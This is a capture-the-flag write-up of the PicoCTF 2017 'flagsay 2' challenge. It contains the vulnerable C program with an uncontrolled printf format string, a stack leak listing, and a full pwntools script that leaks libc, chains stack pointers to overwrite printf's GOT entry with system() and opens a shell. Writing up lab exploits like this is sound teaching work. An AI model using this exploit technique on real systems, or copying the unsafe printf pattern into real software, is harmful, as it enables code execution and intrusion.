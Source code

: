 ### Solved by Swappage

flagsay 2 was the "enhanced version" of flagsay, this was another format string vulnerability challenge, but this time we didn't have direct control over the stack.

To exploit this i used the following trick: by using format strings, if you find, in the leak of the stack, one address that points to another address also on the stack, you can abuse this situation to change the second pointer to a value of choice.

Ok this explanation sucks but here's the practical example that i abused on this challenge.. oh, and here is the source anyway

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FIRSTCHAROFFSET 129
#define LINELENGTH 35
#define NEWLINEOFFSET 21
#define LINECOUNT 6

#define BUFFLEN 1024

char flag[] = "               _                                        \n"
	          "              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     \n"
	          "             //                                   /     \n"
	          "            //                                   /      \n"
	          "           //                                   /       \n"
	          "          //                                   /        \n"
	          "         //                                   /         \n"
	          "        //                                   /          \n"
	          "       //___________________________________/           \n"
	          "      //                                                \n"
	          "     //                                                 \n"
	          "    //                                                  \n"
	          "   //                                                   \n"
	          "  //                                                    \n"
	          " //                                                     \n";

void placeInFlag(char * flag, char * str){
	char * ptr = flag + FIRSTCHAROFFSET;
	char * lastInLine = ptr + LINELENGTH;
	size_t charRemaining = strlen(str);
	size_t linesDone = 0;
	while(charRemaining > 0 && linesDone < LINECOUNT){
		if(ptr == lastInLine){
			ptr += NEWLINEOFFSET;
			lastInLine += NEWLINEOFFSET + LINELENGTH;
			linesDone++;
			continue;
		}
		ptr[0] = str[0];
		ptr++;
		str++;
		charRemaining--;
	}

}



int main(int argc, char **argv){
	setbuf(stdout, NULL);

	size_t flagSize = strlen(flag) + 1; //need to remember null terminator
	char * input = (char *)malloc(sizeof(char) * flagSize);
	input[flagSize-1] = '\x0';
	char * tempFlag = (char *)malloc(sizeof(char) * flagSize);
	while(1){
		strncpy(tempFlag, flag, flagSize);
		tempFlag[flagSize-1] = '\x0';
		fgets(input, flagSize, stdin);
		char * temp = strchr(input, '\n');
		if(temp != NULL){
			temp[0] = '\x0';
		}

		placeInFlag(tempFlag, input);
		printf(tempFlag);
	}
	free(tempFlag);
	free(input);
}
```

generally when working with these kind of bugs, because we are working with relative addresses anyway, it's better to turn off aslr on the testing machine, so it becomes easier at first to understand what's going on.

the first thing i did was to leak quite a bunch of stack addresses:

		1 0x804a0da
		2 0xf7fa35a0
		3 0x8048722
		4 0x804a247
		5 0x804a368
		6 0x804a008
		7 0x358
		8 0xf7fa33dc
		9 0xffffd360
		10 (nil)
		11 0xf7e08276
		12 0x1
		13 0xf7fa3000
		14 (nil)
		15 0xf7e08276			<--- a libc address
		16 0x1
		17 0xffffd3f4			<--- points to the address in position 53
		18 0xffffd3fc			<--- points to the address in position 55
		19 (nil)
		20 (nil)
		21 (nil)
		...
		47 0x80486d0
		48 0x8048740
		49 0xf7fe88b0
		50 0xffffd3ec
		51 0xf7ffd918
		52 0x1
		53 0xffffd57f
		54 (nil)
		55 0xffffd5a0
		56 0xffffdb5c
		57 0xffffdb73
		58 0xffffdb82
		59 0xffffdb93
		60 0xffffdba8
		61 0xffffdbb3
		62 0xffffdbc8
		63 0xffffdbdc
		64 0xffffdbea
		65 0xffffdbf5
		66 0xffffdc1b
		67 0xffffdc2c
		68 0xffffdc36


it might not look quite obvious by just looking at the above list, but the pointers in position 17 and 18 points respectively to the memory location that is leaked at position 53 and 55

this means that we can use format strings to write arbitrary pointers at position 53 and 55, and then use these pointers later on to achieve an arbitrary write what where primitive

This time, again, we cant write pointers all in one shot, we have to make good use of partial overwrites, in this particular scenario, i used the first pointer (in position 17) to modify the value at position 53 so that it would point to position 54; then aligned the pointers properly so that they would point to higher and lower parts of addresses in the GOT.

I really used paper and pencil to make sense of the pointers, so here is some sort of rapresentation where i can show my 1337 paint m4d sk1llz

![](/images/2017/PicoCTF/flagsay2/1.png)

once we managed to write what we want on the GOT it's practically game over, we just make the application to invoke our desired function and we have a shell.

```python
#!/usr/bin/python

from pwn import *

#r = remote("localhost", 1337)
r = remote("shell2017.picoctf.com", 44887)

raw_input("Attach GDB now")

r.sendline("%15$p %17$p %18$p %53$p %55$p")
pointers = r.recv()
pointers = pointers.split("/")[4].split("   ")[0]

libc = pointers.split(" ")[0]
p1 = pointers.split(" ")[1]
p2 = pointers.split(" ")[2]
p3 = pointers.split(" ")[3]
p4 = pointers.split(" ")[4]

log.info("Pointer 1: " + p1)
log.info("Pointer 2: " + p2)
log.info("Pointer 3: " + p3)
log.info("Pointer 4: " + p4)

#
# libcbase on KALI:  %15$p - 0x18276
# libcbase on debian8: %15$p - 0x19a63
#
log.info("Libc leak: " + libc)
libc = int(libc,16)
libcbase = libc - 0x19a63
system = libcbase + 0x3e3e0

log.info("libc base: " + str(hex(libcbase)))
log.info("system: " + str(hex(system)))

# let's setup the stack
# we are forging the pointer @ p4 location that is at %55$p

#1 modify p3 to point to p4 HSB
# *p3 => *p2+2
p2lsb = p2[-4:]
p2lsb = int(p2lsb, 16)
log.info("p2lsb: " + str(hex(p2lsb)))
p2lsb = p2lsb + 2
log.info("p2lsb dest: " + str(hex(p2lsb)))
r.sendline("%" + str(p2lsb-0x81) + "c%17$hn")
r.recv()



#2 modify p4 lsb with arbitrary bytes
# we are going to use printf@GOT here
# fgets@GOT: 08049974
r.sendline("%39151c%18$hn")
r.recv()
r.sendline("%1923c%53$hn")
r.recv()

#
# create a second pointer on the stack to point at printf@GOT+2
# we use %54$p
#
p2lsb = p2lsb -6
log.info("p2lsb dest: " + str(hex(p2lsb)))
r.sendline("%" + str(p2lsb-0x81) + "c%17$hn")
r.recv()

r.sendline("%39153c%53$hn")
r.recv()

p2lsb = p2lsb +2
log.info("p2lsb dest: " + str(hex(p2lsb)))
r.sendline("%" + str(p2lsb-0x81) + "c%17$hn")
r.recv()

r.sendline("%1923c%53$hn")
r.recv()

#
# now %55$p points to printf@GOT
# %54p points to printf@GOT + 2
# time to write system()

systemstr = str(hex(system))
systemlsb = "0x" + systemstr[-4:]
systemhsb = systemstr[:6]

systemlsb = int(systemlsb, 16)
systemhsb = int(systemhsb, 16)
charcount = systemhsb - systemlsb


r.sendline("%" + str(systemlsb - 0x81) + "c%55$hn%" + str(charcount) + "c%54$hn")

r.interactive()
```

